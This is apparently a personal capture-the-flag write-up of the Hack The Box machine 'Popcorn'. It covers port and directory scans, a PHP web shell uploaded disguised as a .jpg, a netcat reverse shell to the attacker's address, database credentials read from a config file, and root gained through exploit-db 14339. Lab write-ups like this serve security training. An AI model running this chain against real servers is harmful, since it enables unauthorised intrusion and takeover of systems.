




# Summary


## about target

tip:  10.129.36.23

hostname:  Popcorn

Difficulty:  Medium


## about attack

+ web enum and exploit, jpg upload and webshell.
+ Privesc, MOTD File Tampering Privilege Escalation; 14339
+ dirty cow, exploit; https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs


**attack note**

```bash
Popcorn / 10.129.36.23

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.12 (Ubuntu)

---- interesting 


---- http enum
dir scan 
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.log  


register account;
Username:   hack01
Password:   Password!

upload torret file.


---- exploit 
edit the screenshot, upload php shell.

mv phpshell.php phpshell.php.jpg

# wolf shell
https://github.com/WhiteWinterWolf/wwwolf-php-webshell/raw/master/webshell.php

http://popcorn.htb/torrent/upload/19a6fcfcba6cc2c6d371eb754074d095adb5d291.php


---- local enum

torrent/config.php

dbname:torrenthoster
dbusername:torrent
dbpassword:SuperSecret!!


---- root
https://www.exploit-db.com/exploits/14339

```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.12 (Ubuntu)
```


## http enum

dir scan, /torrent

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.log
```


/torrent, default creds not work, register.

Username:   hack01
Password:   Password!


search exploit，nothing


# Exploit

upload torrent file and edit the screenshot.



download wolfshell.

 https://github.com/WhiteWinterWolf/wwwolf-php-webshell/raw/master/webshell.php

change file extension and upload.

```bash
mv webshell.php webshell.php.jpg
```

intercept and  change the filename.



web shell link;  from screenshot

http://popcorn.htb/torrent/upload/19a6fcfcba6cc2c6d371eb754074d095adb5d291.php

get shell

```bash
nc -e /bin/bash 10.10.14.20 4444
```




# Privesc


## local enum

manual enum, db creds.

```bash
torrent/config.php

dbname:torrenthoster
dbusername:torrent
dbpassword:SuperSecret!!
```


/home/George/.cache dir, odd.


linpeas, not much.  some kernel exploit, not work.


from walkthrough, .cache exploit.

https://www.exploit-db.com/exploits/14339


## System

```bash
bash ./14339.sh 
```

got root.




## proof

```bash


```


